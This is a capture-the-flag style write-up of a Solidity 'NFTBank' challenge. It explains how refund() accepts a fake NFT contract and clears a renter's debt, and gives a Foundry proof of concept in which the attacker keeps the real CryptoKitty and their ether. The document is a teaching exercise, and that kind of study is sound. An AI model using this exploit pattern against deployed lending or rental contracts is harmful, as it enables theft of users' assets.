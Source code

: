 # NFTBank

## Description

`refund()` function lacks the check if anyone is adding a fake NFT.
 
An Attacker can create a fake NFT contract and call the `refund` with the new NFT deails which clear out his debt.

Attack Steps:

1. Attackers creates the newNFT and mint 1 token for himself

2. Attckers then approves the bank to rent.

3. Attackers then call the `refund()` funciton with it's collection and id of new NFT he just created.

In refund function, this for loop received the wrong address and id, the default valueu of `rentedNFTs` be 0, which is of `CryptoKitties`

```
for (uint i; i < rentNFTs.length; i++) {
            if (rentNFTs[i].collection == collection && rentNFTs[i].id == id) {
                rentedNft = rentNFTs[i];
            }
        }
```



---

## POC:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import "forge-std/Test.sol";
import "forge-std/console.sol";

import {NFTBank} from "../src/NFTBank.sol";
import {ERC721} from "openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";
import {Ownable} from "openzeppelin-contracts/contracts/access/Ownable.sol";

contract CryptoKitties is ERC721("CryptoKitties", "MEOW"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}
contract CryptoDoggies is ERC721("CryptoDoggies", "DOG"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}

contract NFTBankHack is Test {
    NFTBank bank;
    CryptoKitties meow;
    address nftOwner = makeAddr("nftOwner");
    address attacker = makeAddr("attacker");

    function setUp() public {
        vm.startPrank(nftOwner);
        bank = new NFTBank();
        meow = new CryptoKitties();
        for (uint i; i < 10; i++) {
            meow.mint(nftOwner, i);
            meow.approve(address(bank), i);
            bank.addNFT(address(meow), i, 2 gwei, 500 gwei);
        }
        vm.stopPrank();
    }

    function test() public {
        vm.deal(attacker, 1 ether);
        vm.startPrank(attacker);
        bank.rent{value: 500 gwei}(address(meow), 1);
        vm.warp(block.timestamp + 86400 * 10);
        
        //solution  

        CryptoDoggies dog;
        dog = new CryptoDoggies();

        dog.mint(attacker, 2);
        dog.approve(address(bank), 2);

        bank.refund(address(dog), 2);

        vm.stopPrank();
        
        assertEq(attacker.balance, 1 ether);
        assertEq(meow.ownerOf(1), attacker);
    }
}
```
